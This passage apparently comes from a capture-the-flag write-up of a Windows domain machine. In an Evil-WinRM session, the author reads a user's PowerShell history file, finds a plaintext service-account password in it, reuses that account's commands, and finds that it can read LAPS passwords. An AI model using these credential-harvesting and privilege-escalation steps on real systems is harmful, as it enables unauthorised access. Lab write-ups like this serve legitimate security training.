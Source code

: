 After executing it, I saw that there was a Powershell command history located at ```C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt```:
```
ÉÍÍÍÍÍÍÍÍÍÍ¹ PowerShell Settings
    PowerShell v2 Version: 2.0
    PowerShell v5 Version: 5.1.17763.1
    PowerShell Core Version: 
    Transcription Settings: 
    Module Logging Settings: 
    Scriptblock Logging Settings: 
    PS history file: C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
    PS history size: 434B
```

If we check the history file we can see some interesting commands that involve a password that we can see when ```$p``` is defined. 
```
*Evil-WinRM* PS C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine> cat "C:/Users/legacyy/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt"
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
``` 
I tried to log on using that account and password without succeeding. However, as we can see in the history files, we can repeat the commands and execute as the svc_deploy user by invoking commands. I decided to check the differences between the ```legacyy``` user and the ```svc_deploy``` user and I saw that the last one has the privilege to read the LAPS. Since we found some information about LAPS before, I decided to follow that path. 
```
*Evil-WinRM* PS C:\Users\legacyy\Documents> net user svc_deploy
User name                    svc_deploy
Full Name                    svc_deploy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/25/2021 12:12:37 PM
Password expires             Never
Password changeable          10/26/2021 12:12:37 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   7/6/2022 7:15:13 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
The command completed successfully.
```